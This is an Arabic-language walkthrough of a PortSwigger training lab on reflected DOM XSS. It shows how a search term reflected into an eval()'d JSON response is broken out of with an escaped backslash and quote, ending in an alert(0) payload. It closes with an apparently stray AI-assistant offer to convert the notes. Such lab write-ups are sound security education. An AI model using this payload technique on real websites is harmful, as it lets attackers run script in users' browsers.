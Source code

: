### 1️⃣ معلومات عامة

|العنصر|التفاصيل|
|---|---|
|**رابط اللاب**|[Reflected DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected)|
|**تاريخ الحل**|29 / 4 / 2025|
|**نوع الثغرة**|Reflected DOM XSS|

---
### 2️⃣ فهم سيناريو اللاب

- الموقع يحتوي على خانة **بحث**.

- عند كتابة أي كلمة والضغط على **Search**، يتم **عرض الكلمة** داخل صفحة النتائج.

![Pasted image](../images/Pasted%20image%2020250429183843.png)

---

### 3️⃣ تحليل الكود المصدر (Source Code)

- بصيت على الـ source code وملقتش حاجة.
    
- ففتحت Burp Suite وبعت الطلب ودا اللي ظهر:
    

![Pasted image](../images/Pasted%20image%2020250429184917.png)

- لكن لما بصيت تاني لقيت فيه **رد إضافي**، وكان فيه الكود الخطر دا:
    

```js
if (this.readyState == 4 && this.status == 200) {
  eval('var searchResultsObj = ' + this.responseText);
  displaySearchResults(searchResultsObj);
}
```

- الكود بياخد الرد من السيرفر ويحطه في دالة `eval()`، اللي بتتعامل مع أي input كأنه كود JavaScript وبتنفذه.
    

![Pasted image](../images/Pasted%20image%2020250429185440.png)

---

### 4️⃣ تحليل طريقة الاستغلال

#### ❗ المشكلة:

الرد من السيرفر بيكون كدا:

```json
{
  "results": [],
  "searchTerm": "z3rob"
}
```

ولو حطينا كود داخل `searchTerm`، هيتعامل كـ string ومش هيتنفذ كـ JavaScript.

---

### ✅ الحل: نكسر بناء الـ JSON

#### الخطوة 1️⃣: نحاول نخرج من الـ string

جربنا نحط:

```
results?search=z3rob"
```

وكان الرد:

```json
{
  "results": [],
  "searchTerm": "z3rob\""
}
```

- الرد أضاف `\` علشان يمنع كسر السلسلة.
    

##### ➤ الحل:

نضيف `\` إحنا كمان، فيصبح كدا:

```
results?search=z3rob\\"
```

فيرد السيرفر:

```json
{
  "results": [],
  "searchTerm": "z3rob\\\""
}
```

نجحنا في كسر تسلسل الـ string.

---

#### الخطوة 2️⃣: نحاول نخرج من الـ JSON كله ونضيف JavaScript

جربنا نحط:

```
z3rob\\""}alert(0)//
```

لكن الكود **مشتغلش**.

---

### ❓ سؤال: **ليه الكود مشتغلش؟**

```js
z3rob\\""}alert(0)//
```

👆 الكود ده مشتغلش لأننا **نسينا نحط فاصلة منقوطة `;`**.

### ✅ التفسير:

- لازم الكود اللي داخل `eval()` يكون صحيح نحويًا.
    
- بدون `;`، المتصفح ممكن يربط `alert(0)` بالجملة اللي قبلها، وده يسبب خطأ.
    

---

### ✔️ الحل النهائي (Final Payload)

```js
z3rob\"};alert(0)//
```

✅ وتم تنفيذ الـ `alert(0)` بنجاح!

![Pasted image](../images/Pasted%20image%2020250429191855.png)

---

هل تحب أحول لك الملاحظات دي لملف Markdown أو PDF؟
